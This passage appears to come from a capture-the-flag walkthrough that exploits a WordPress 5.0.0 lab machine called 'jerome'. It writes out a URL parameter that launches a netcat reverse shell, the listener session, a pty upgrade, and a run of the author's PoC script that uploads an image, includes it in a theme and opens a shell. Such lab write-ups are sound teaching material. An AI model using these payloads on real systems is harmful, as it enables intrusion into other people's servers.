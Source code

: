 Set up a netcat listener on port 443, and type the following in the address bar.

`localhost:1337/wordpress/?p=333&cmd=nc 172.16.178.1 443 -c /bin/bash`

![](/assets/images/jerome/screenshot-24.png)

It was obtained a shell with user **jerome** privileges.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.132] 55284
python3 -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$
```

**Automated Exploitation**

If you are comfortable using automated tools, I developed a python script that makes the exploitation process much easier, the exploit can be found [here](https://github.com/s4rgaz/poc-wordpress-5.0.0).

```console
root@kali:~/# proxychains -q python3 poc.py --url http://localhost:1337/wordpress -u jerome -p jerome -lhost 172.16.178.1 -lport 443
[*] Authenticating to wordpress
[+] Login successful
[*] Uploading image
[+] Image uploaded
[*] Updating image
[*] Including image into theme
[*] Creating post
[*] Starting listener on 443
[*] Executing reverse shell
bash: cannot set terminal process group (536): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$ id
id
uid=1000(jerome) gid=1000(jerome) groups=1000(jerome),27(sudo)
jerome@jerome:/var/www/html/wordpress$
```

```console
Listing the user flag 
jerome@jerome:/home/jerome$ cat flag.txt
cat flag.txt
b0ed001c825
```
